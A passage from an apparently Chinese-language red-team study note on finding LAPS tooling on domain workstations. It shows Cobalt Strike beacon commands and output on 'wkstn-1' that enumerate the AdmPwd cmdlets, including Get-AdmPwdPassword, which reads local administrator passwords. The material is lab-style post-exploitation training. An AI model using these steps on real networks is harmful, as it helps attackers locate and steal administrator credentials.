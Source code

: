 
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661470790012.png)


有LAPS的电脑一般预装了LAPS PowerShell cmdlets ，上面枚举到wkstn-1和wkstn-2两台电脑都有



搜索**AdmPwd**相关的命令


在wkstn-1

```
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-1

beacon> powershell Get-Command *AdmPwd*
[*] Tasked beacon to run: Get-Command *AdmPwd*
[+] host called home, sent: 325 bytes
[+] received output:
#< CLIXML

CommandType     Name                                               Version    Source                                   
-----------     ----                                               -------    ------                                   
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS                                
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS                                
```